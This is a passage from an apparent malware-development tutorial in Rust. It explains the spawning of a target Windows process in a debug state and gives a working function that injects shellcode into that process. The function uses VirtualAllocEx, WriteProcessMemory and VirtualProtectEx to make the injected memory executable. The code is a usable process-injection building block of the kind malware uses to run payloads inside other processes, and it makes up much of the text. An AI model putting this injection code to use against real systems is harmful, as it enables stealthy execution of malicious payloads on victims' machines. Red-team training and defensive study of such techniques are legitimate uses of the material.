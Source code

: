 This function initializes the `STARTUPINFOA` and `PROCESS_INFORMATION` structures, fetches the Windows Directory and spawns a the targeted process in a debug state. If all goes OK, returns a tuple with the process ID, the process handle and the main Thread handle; if not returns an error as a String. 

The `STARTUPINFOA` initializes the new process's startup parameters, while `PROCESS_INFORMATION` stores details about the created process and its primary thread. Those structures are necessary to process creation.

### Shellcode Injection
In this part a new memory space is allocated in the targeted process with the `VirtualAllocEx`  function. Then the shellcode is written into the memory with the `WriteProcessMemory` function. And lastly the memory protection of that space is changed to read-write-execute with the `VirtualProtectEx` function.

``` rust
fn inject_shellcode_to_remote_process(h_process: HANDLE, p_shellcode: *const u8, s_shellcode: usize) -> Result<*const c_void, String>{  
    let p_address = unsafe {  
        VirtualAllocEx(h_process, None, s_shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)  
    };  
  
    if p_address.is_null() {  
        let error = format!("[!] VirtualAllocEx Failed With Error: {:?}", std::io::Error::last_os_error());  
        return Err(error);  
    }  
    println!("[i] Allocated Memory At : {:?}", p_address);  
    println!("[#] Press <Enter> To Write Payload ... ");  
    let _ = std::io::stdin().read_line(&mut String::new());  
  
    unsafe {  
        let lp_number_of_bytes_written: Option<*mut usize> = None;  
        if let Err(err) = WriteProcessMemory(h_process, p_address, p_shellcode as *const c_void, s_shellcode, lp_number_of_bytes_written) {  
            let error = format!("[!] WriteProcessMemory Failed With Error : {:?}", err);  
            return Err(error);  
        } else {  
            println!("[i] Successfully Written {} Bytes", s_shellcode);  
        }  
  
        let mut lp_flag_old_protect = PAGE_PROTECTION_FLAGS(0);  
        if let Err(err) = VirtualProtectEx(h_process, p_address, s_shellcode, PAGE_EXECUTE_READWRITE, &mut lp_flag_old_protect) {  
            let error = format!("[!] VirtualProtectEx Failed With Error : {:?}", err);  
            return Err(error)  
        } else {  
            println!("[i] Successfully Changed Memory Protection");  
        }  
    }  
    Ok(p_address)  
}
```
